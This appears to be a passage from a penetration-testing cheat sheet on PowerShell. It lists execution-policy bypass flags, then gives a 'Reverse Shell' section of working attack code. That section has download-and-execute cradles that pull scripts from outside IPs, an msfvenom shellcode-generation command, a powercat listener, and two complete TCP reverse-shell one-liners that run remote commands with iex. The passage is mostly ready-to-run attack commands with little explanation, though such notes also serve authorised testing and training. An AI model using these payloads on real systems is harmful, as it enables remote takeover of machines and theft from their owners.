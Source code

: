 - Not a security feature
- Used to avoid accidental script execution
- Can be bypass with:
  - `powershell.exe -exec Bypass`
  - `powershell -ExecutionPolicy bypass .\example.ps1`
  - `powershell -c <cmd>`
  - `powershell -EncodedCommand <cmd>`
  - `powershell -enc <cmd>`
  - `$env:PSExecutionPolicyPreference="bypass"`
- Ref: <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6>
- 15 ways to bypass PowerShell execution policy: <https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy>

## Reverse Shell 

- <http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html>
    ```powershell
    Start-Process -FilePath “powershell” -argumentlist “IEX(New-Object Net.WebClient).downloadString(‘http://10.10.14.30/adminshell.ps1’)” -Credential $cred

    msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.159/Invoke-PowerShellTcp-8082.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
    ```
    ```bat
    powercat -l -v -p 4444 -t 1000
    ```
    ```bat
    powershell -e "<encoded-payload>"
    ```    
    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.10",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    ```
    ```powershell
    $sm=(New-Object Net.Sockets.TCPClient("192.168.254.1",55555)).GetStream();[byte[]]$bt=0..255|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
    ```

## Remote Script execution

